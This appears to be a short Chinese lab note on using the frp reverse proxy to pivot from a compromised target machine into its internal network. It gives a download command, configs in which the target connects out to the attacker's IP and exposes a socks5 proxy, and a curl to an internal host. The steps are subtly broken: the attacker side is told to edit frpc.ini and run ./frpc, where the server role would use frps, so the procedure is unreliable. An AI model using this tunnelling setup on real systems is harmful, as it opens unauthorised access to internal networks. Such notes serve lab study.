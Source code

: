 frp - 高性能反向代理

在攻击机和靶机上都需要下载,拉不下来可以用在本地下载,然后scp到虚拟机

wget https://github.com/fatedier/frp/releases/download/v0.44.0/frp_0.44.0_linux_amd64.tar.gz

tar -zxvf frp_0.44.0_linux_amd64.tar.gz

然后cd进目录,需要修改frpc.ini 这个文件
vim frpc.ini  

攻击机器的改成:
```
[common]
bind_port = 7000
```

靶机改成:
```
[common]
server_addr = 192.168.168.10  # 这里要改成攻击机的ip!!!!!!!!!!!!!!!!!!!!!!
server_port = 7000

[socks_proxy]
type = tcp
remote_port = 1080
plugin = socks5
```

接下里攻击机和靶机同时运行 ./frpc -c frpc.ini
可以看到这样的:
![1748101793282](image/跳板/1748101793282.png)
![1748101810710](image/跳板/1748101810710.png)
看到这有 success  了,说明成功

然后在攻击机上再打开一个终端,curl 192.170.84.3 可以看到页面回显
